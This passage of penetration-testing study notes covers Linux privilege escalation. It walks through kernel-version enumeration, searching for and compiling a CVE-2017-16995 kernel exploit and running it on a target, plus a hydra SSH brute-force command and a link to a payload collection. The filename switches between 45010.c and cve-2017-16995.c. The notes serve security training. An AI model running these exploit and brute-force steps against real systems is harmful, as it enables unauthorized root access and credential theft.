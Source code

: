 This confirms that tcpdump is actively protected with a dedicated AppArmor profile.

### Exploiting Kernel Vulnerabilities

Kernel exploits are an excellent way to escalate privileges, but our success may depend on matching not only the target's kernel version, but also the operating system flavor, such as Debian, RHEL, Gentoo, etc.

To demonstrate this attack vector, we will first gather information about our Ubuntu target by inspecting the /etc/issue file. As discussed earlier in the Module, this is a system text file that contains a message or system identification to be printed before the login prompt on Linux machines. We should also inspect the kernel version and system architecture using standard system commands:

```bash
cat /etc/issue
uname -r
arch
```

Let's use searchsploit to and use "linux kernel Ubuntu 16 Local Privilege Escalation" as our main keywords. We also want to filter out some clutter from the output, so we'll exclude anything below kernel version 4.4.0 and anything that matches kernel version 4.8.

```bash
searchsploit "linux kernel Ubuntu 16 Local Privilege Escalation"   | grep  "4." | grep -v " < 4.4.0" | grep -v "4.8"
```

We'll use gcc on Linux to compile our exploit, keeping in mind that when compiling code, we must match the architecture of our target. This is especially important in situations where the target machine does not have a compiler and we are forced to compile the exploit on our attacking machine or in a sandboxed environment that replicates the target OS and architecture.

```bash
cp /usr/share/exploitdb/exploits/linux/local/45010.c .
head 45010.c -n 20
scp cve-2017-16995.c joe@192.168.123.216:
```

```bash
gcc cve-2017-16995.c -o cve-2017-16995
file cve-2017-16995
./cve-2017-16995
```

#### Brute Forcing SSH

```bash
hydra -l offsec -P wordlist -s 2222 ssh://192.168.12.133
```

#### Payload of All Things

Has some amazing enumeration and priv esc commands, 'https://github.com/swisskyrepo/PayloadsAllTheThings'.

#### Check Your ID Group
